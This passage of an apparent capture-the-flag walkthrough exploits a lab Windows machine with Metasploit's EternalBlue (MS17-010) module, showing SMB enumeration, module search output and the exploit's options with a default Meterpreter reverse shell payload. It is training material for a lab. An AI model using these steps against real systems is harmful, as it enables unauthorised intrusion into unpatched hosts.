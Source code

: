 - We can try to do some further enumeration with the following syntax:
```
use auxiliary/scanner/smb/smb_lookupsid
set rhosts target-ip
run
```

- In truth, this isn't strictly necessary. This is primarily designed to get you to interact with [Metasploit](https://www.metasploit.com/) and get comfortable with its syntax and mechanics. There is a lot more this framework can do, and it is absolutely worth further exploration. Let's move on. 

## System Hacking
- Based on the guided questions in this room, we know that we have to start [Metasploit](https://www.metasploit.com/) and leverage the ms-17-010 EternalBlue exploit to get remote access to the machine. We can search for this exploit module using the following syntax:
```
search ms17-010
```

- The output will look something like this:
```rb
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce
```

- Let's select the first entry by entering `use 0` into the console. 
- Now that the module is loaded, we can take a look at the options we need to set by using the `show options` command. Here is the output:
```rb
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://d
                                             ocs.metasploit.com/docs/using-met
                                             asploit/basics/using-metasploit.h
                                             tml
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to
                                             use for authentication. Only affe
                                             cts Windows Server 2008 R2, Windo
                                             ws 7, Windows Embedded Standard 7
                                              target machines.
   SMBPass                         no        (Optional) The password for the s
                                             pecified username
   SMBUser                         no        (Optional) The username to authen
```